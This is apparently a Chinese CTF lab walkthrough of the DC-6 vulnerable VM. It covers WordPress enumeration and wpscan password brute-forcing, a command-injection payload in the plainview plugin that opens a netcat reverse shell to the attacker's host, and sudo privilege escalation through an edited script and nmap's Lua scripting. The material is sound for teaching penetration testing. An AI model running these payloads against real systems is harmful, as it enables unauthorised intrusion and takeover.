# 前言

靶机：`DC-6`，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

对于文章中涉及到的靶场以及工具，我放置在公众号中，在公众号发送`dc0106`即可获取相关工具

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`

因为是靶机，所以在同一局域网中，这里使用这两个工具是因为在同一局域网中的扫描速度很快

当然，如果想要模拟真实渗透，建议使用`nmap`等扫描工具



使用`nmap`扫描`192.168.10.0`网段中的存活主机

```shell
nmap -sn 192.168.10.1/24
```



# 信息收集 

## 使用nmap扫描端口

扫描目标的全端口，以及服务和操作系统信息

```shell
nmap -sV -O 192.168.10.10 -p-
```



## 网站信息探测

访问80端口默认界面，输入`ip`地址，跳转到`wordy`，说明可能是域名，需要进行绑定解析



编辑`/etc/hosts`文件，在其中添加`ip`以及域名进行绑定



再次访问网站，发现默认界面中的信息，发现CMS可能为`wordpress`



使用`whatweb`进一步进行探测，确定为`wordpress`，版本为`5.1.1`

```shell
whatweb http://wordy
```


那么这里就可以使用针对CMS为`wordpress`的扫描工具`wpscan`

```shell
wpscan --url http://wordy
```



# 漏洞寻找

继续使用`wpscan`尝试进行用户名枚举，发现五个用户

```shell
wpscan --url http://wordy -e u
```



尝试对这些用户进行密码爆破

```shell
wpscan --url http://wordy -e u -P /usr/share/wordlists/rockyou.txt
```

这里需要很长时间，所以这里再另起一个终端窗口，来做其他检测

这里进行目录扫描后，并未发现有隐藏或备份文件可用

再使用`wpscan`扫描插件有无漏洞可用，这里把检测模式改为具有侵略性的

```shell
wpscan --url http://wordy --detection-mode aggressive --plugins-detection aggressive -e ap
```

发现有三个插件，版本信息也都给出


使用`searchsploit`搜索有无对应的版本漏洞，最终确定`plainview`插件存在，但是需要认证后才能使用该漏洞

```shell
searchsploit plainview
```


但是这里还没有获取到密码，啧，这里去网上看了以下`wp`，确定是不是字典的问题，发现，在该靶机的主页，作者给出了提示。

> >描述
> >
> >DC-6 是另一个专门建造的易受攻击实验室，旨在获得渗透测试领域的经验。
>
> 注意：您需要在渗透测试设备上编辑 hosts 文件，使其如下所示：
>
> 192.168.0.142 wordy
>
> 注意：我以 192.168.0.142 为例。您需要使用常规方法来确定 VM 的 IP 地址，并相应地进行调整。
>
> 
>
> 线索
> 好吧，这并不是一个真正的线索，而是为那些只想继续工作的人提供的一些“我们不想花五年时间等待某个过程完成”的建议。
>
> cat /usr/share/wordlists/rockyou.txt |grep k01 > passwords.txt 这应该可以为您节省几年时间。;-)

确实是字典问题，如果按照原本的字典，啧啧啧

重新使用`wpscan`进行密码爆破

```shell
#先把rockyou.txt字典中的包含k01的每一行，都重定向到当前目录下的passwords.txt文件中
cat /usr/share/wordlists/rockyou.txt |grep k01 > passwords.txt

#使用当前作者提示的密码本进行密码爆破
wpscan --url http://wordy -e u -P passwords.txt
```


爆出用户名`mark`和密码`helpdesk01`

# 漏洞利用

结合前面的插件漏洞，我觉得可以了，查看前面的其中一个`html`文件

```shell
cat /usr/share/exploitdb/exploits/php/webapps/45274.html
```

这是自己构造的`html`界面，不过这里通过访问这个插件，发现也是可行的



这里我就不用提供的`html`，自己去访问靶机中的地址，然后按照顺序点击，可以看到，`id`命令执行成功



那么尝试构造一个反弹`shell`，测试是否能够成功，在尝试进行输入时，这里的输入框进行了一个长度的限制，所以需要借助浏览器开发者工具，修改其最大长度，这里默认是15，不过想改多大就多大



再经过测试，使用`bash`反弹，我这里未能成功，采用`nc`反弹成功获取`shell`

对于多种反弹`shell`方式，可以借助网站`https://forum.ywhack.com/shell.php`测试

```shell
#在输入框输入下面代码
127.0.0.1|nc -e /bin/sh 192.168.10.2 9999
```

然后在`kali`中使用`nc`进行监听端口

```shell
#在kali中
nc -lvvp 9999
```

然后在浏览器的界面中，点击`lookup`按钮，即可发现，反弹`shell`成功


使用`dpkg`获取靶机安装的`python`版本

```shell
dpkg -l | grep python

python3 -c 'import pty;pty.spawn("/bin/bash")'
```


# 提取

## 提权至用户graham

查看`wordpress`连接数据库的配置文件`wp-config.php`，不过其中的用户名并未对应到靶机内的几个用户，所以就暂时搁置，查看靶机内用户

```shell
ls -ls /home
cat /etc/passwd | grep /bin/bash
```



发现用户名`mark`，尝试使用之前获取的其密码`helpdesk01`进行`ssh`登录，发现不能登录

不过在其目录下，发现一个文件，该文件，记录了一些好东西

记录添加用户名`graham`，恰好这里的靶机内就有该用户，那么猜测后面的是其密码



使用该用户`graham`和密码`GSo7isUM1D4`进行`ssh`登录，发现成功



## 提权至用户jens

查看`/home`目录下的其他用户主目录，发现一个脚本文件，再使用`find`寻找具有SUID权限的文件

```shell
find / -type f -perm -u=s 2>/dev/null
```



查看该脚本文件，发现其他用户没有修改权限，不过这个组和用户不一样，就使用`groups`查看一下，发现两个用户`graham`和`jens`所属同一组`devs`



修改脚本文件，在其中添加`/bin/bash`即可，然后以`jens`执行`sudo`

```shell
sudo -u jens /home/jens/./backups.sh 
```


# 提权至root

提权至`jens`后，随手测试一下`sudo -l`，发现无需密码，并发现提权方式了


如果不知道如何使用`nmap`命令提权，可以借助网站`gtfobins.github.io`搜索方式



经测试，发现`--interactive`并无，所以无法使用第二个进行提取

采用第一种方式进行提取，这里需要注意，使用这个提取后，**用户输入什么命令，都是不会显示的**，只会显示结果的返回

```shell
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```


> 清理痕迹这里就不说了，因为不显示输入，没什么效果

# 总结

该靶机主要考察以下几点：

1. 对于网站CMS  `wordpress`的了解，以及针对其CMS的工具`wpscan`的使用
2. 对于无可利用点的使用，密码本可能是关键点
3. 对于插件漏洞的搜索与使用，这里借助`searchsploit`搜索
4. 命令执行的利用，以及反弹`shell`的几种方式
5. 文件所属者、文件所属组、以及用户所属组的关系，这会间接的确定文件的权限问题
6. `sudo`的提取，指定用户，即以指定用户的身份执行，或者直接以`root`的身份去执行


